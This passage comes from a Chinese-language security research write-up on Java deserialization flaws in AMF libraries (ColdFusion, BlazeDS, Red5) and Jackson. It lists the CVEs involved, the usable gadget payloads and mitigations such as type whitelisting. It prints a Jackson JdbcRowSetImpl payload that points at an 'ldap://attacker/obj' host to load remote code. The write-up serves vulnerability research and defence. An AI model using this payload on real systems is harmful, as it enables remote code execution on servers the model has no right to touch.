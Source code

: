   > CVE-2017-3066 Adobe Coldfusion

  > CVE-2017-5641 Apache BlazdDS

  > CVE-2017-5641 VMWare VCenter

- 可用 payloads

  - RMIRef(4.20)
  - C3P0WrapDS(4.9)
  - SpringPropFac(4.10)

- 修复、缓解措施

    可用通过DeserializationValidator 实现一个类型白名单。更新待版本4.7.3，默认开启白名单

#### 3.1.5 Red5 IO AMF

Red5 有自定义的 AMF unmarshallers ，与 BlazeDS 有些许不同。它们都需要一个默认的 public 构造器 和public setters 。仅通过自定义标记接口支持外部化类型。

但是，它没有实现 javax.sql.RowSet 自定义逻辑， 因此可以通过 JdbcRowset 、 SpringPropFac 和 C3P0WrapDs 实现攻击， 都依赖于 Red5 服务。

- References

  > CVE-2017-5878 Red5 , Apache OpenMeetings

- 可用 payloads

  - JdbsRowset(4.2)
  - C3P0WrapDS(4.9)
  - SpringPropFac(4.10)

#### 3.1.6 Jackson

Jackson ,在它的默认配置中，执行严格的运行时类型检查，包括一般类型收集和禁止特殊、任意类型，因此在默认配置中它是无法被影响的。但是，它有一项配置参数来启用多态 [unmarshalling](http://wiki.fasterxml.com/JacksonPolymorphicDeserialization),包括使用 java 类名的选项。Jaclson 需要一个默认构造器和setter 方法（不区分public 和private ，均可行）。

类型检查在这些模式下也起作用，所有攻击也需要一个 使用supertype的 readValue() 或具有该类型的嵌套字段、集合。

这里有类型信息的一系列表现形式，都表现为相同的行为。因此，有多种方法来开启这种多态性，全局的 ObjectMapper->enableDefaultTyping(),一个自定义的 TypeResolverBuilder ，或者使用 在字段上使用 @JsonTypeInfo 注释。取决于 Jackson的版本，也行可以使用 JdbsRowset 进行攻击：

```java
["com.sun.rowset.JdbcRowSetImpl ",{
    "dataSourceName ":
    "ldap :// attacker/obj",
    "autoCommit" : true
}]
```

但是，那并不会在 2.7.0以后版本生效, 因为 Jackson 检查是否定义了多个冲突的setter方法， JdbcRowSetTmpl 有 3个对应 'matchColumn' 属性的setter 。Jackson 2.7.0 版本为这种场景添加了一些分辨逻辑。不幸的事，这个分辨逻辑有bug：依赖于 Class->getMethods() 的顺序，然而这是随机的（但缓存使用 SoftReference ，所以只要进程一直运行，就不会得到另一次机会），检查因此失效。

除此之外，Jackson 还可以使用  SpringPropFac, SpringB-FAdv, C3P0RefDS, C3P0WrapDS ，RMIRemoteObj  进行攻击。

- References

  > REPORTED Amazon AWS Simple Workflow Library
